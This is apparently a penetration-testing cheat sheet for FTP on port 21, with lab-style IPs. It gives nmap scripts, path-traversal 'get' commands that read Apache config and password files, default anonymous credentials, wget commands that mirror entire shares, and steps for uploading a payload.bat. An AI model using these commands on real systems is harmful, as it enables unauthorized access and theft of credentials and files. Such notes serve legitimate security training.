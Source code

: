 # (21) FTP

<details>

<summary>Nmap</summary>

<pre><code><strong>nmap --script ftp-* -p 21 10.11.67.208
</strong></code></pre>

</details>

<details>

<summary>Read Files on FTP</summary>

```bash
get <filename> -
```

### Path Traversal on vuln FTP Server

```bash
get ../../../xampp/apache/conf/httpd.conf -
```

```bash
get ../../../xampp/password -
```

</details>

<details>

<summary>Anonymous Login</summary>

_anonymous : anonymous_\
&#xNAN;_&#x61;nonymous :_\
&#xNAN;_&#x66;tp : ftp_

</details>

<details>

<summary>Download files using Wget</summary>

### Download selected directories

Eg: `program files (x86)/PRTG Network Monitor`

```bash
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.152/"program files (x86)/PRTG Network Monitor"
```

### Download all files

```bash
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```

* If above command doesn't work --> try with no `--no-passive`

</details>

<details>

<summary>Uploading a binary file</summary>

```
ftp 192.168.138.53
```

```
pass
```

```
binary
```

```
put payload.bat
```

</details>
